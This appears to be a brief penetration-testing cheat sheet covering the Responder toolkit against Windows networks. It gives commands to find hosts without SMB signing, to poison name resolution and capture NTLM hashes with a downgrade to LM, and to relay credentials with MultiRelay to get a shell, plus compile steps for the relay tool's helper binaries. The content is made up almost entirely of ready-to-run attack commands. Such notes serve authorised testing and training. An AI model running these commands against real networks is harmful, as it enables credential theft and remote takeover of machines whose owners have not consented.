 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* `responder -I <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`


Meterpreter shell:
* see Metasploit.md from this section
